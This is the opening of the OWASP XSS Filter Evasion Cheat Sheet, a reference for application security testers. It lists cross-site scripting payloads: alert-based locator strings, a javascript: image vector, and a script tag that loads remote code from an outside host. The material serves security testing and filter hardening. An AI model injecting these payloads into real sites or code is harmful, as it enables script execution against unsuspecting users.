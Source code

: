 This article is focused on providing application security testing professionals with a guide to assist in Cross Site Scripting testing. The initial contents of this article were donated to OWASP by RSnake, from his seminal XSS Cheat Sheet, which was at: http://ha.ckers.org/xss.html. That site now redirects to its new home here, where we plan to maintain and enhance it. The very first OWASP Prevention Cheat Sheet, the XSS (Cross Site Scripting) Prevention Cheat Sheet, was inspired by RSnake’s XSS Cheat Sheet, so we can thank him for our inspiration. We wanted to create short, simple guidelines that developers could follow to prevent XSS, rather than simply telling developers to build apps that could protect against all the fancy tricks specified in rather complex attack cheat sheet, and so the OWASP Cheat Sheet Series was born.
Tests

This cheat sheet is for people who already understand the basics of XSS attacks but want a deep understanding of the nuances regarding filter evasion.

Please note that most of these cross site scripting vectors have been tested in the browsers listed at the bottom of the scripts.

XSS Locator

Inject this string, and in most cases where a script is vulnerable with no special XSS vector requirements the word “XSS” will pop up. Use this URL encoding calculator to encode the entire string. Tip: if you’re in a rush and need to quickly check a page, often times injecting the depreciated “<PLAINTEXT>” tag will be enough to check to see if something is vulnerable to XSS by messing up the output appreciably:
1
';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//";
	2
alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//--
	3
	></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>


	XSS locator 2

	If you don’t have much space and know there is no vulnerable JavaScript on the page, this string is a nice compact XSS injection check. View source after injecting it and look for <XSS verses &lt;XSS to see if it is vulnerable:
	1
	'';!--"<XSS>=&{()}


	No Filter Evasion

	This is a normal XSS JavaScript injection, and most likely to get caught but I suggest trying it first (the quotes are not required in any modern browser so they are omitted here):
		1
		<SCRIPT SRC=http://ha.ckers.org/xss.js></SCRIPT>


		Image XSS using the JavaScript directive

		Image XSS using the JavaScript directive (IE7.0 doesn’t support the JavaScript directive in context of an image, but it does in other contexts, but the following show the principles that would work in other tags as well:
				1
				<IMG SRC="javascript:alert('XSS');">
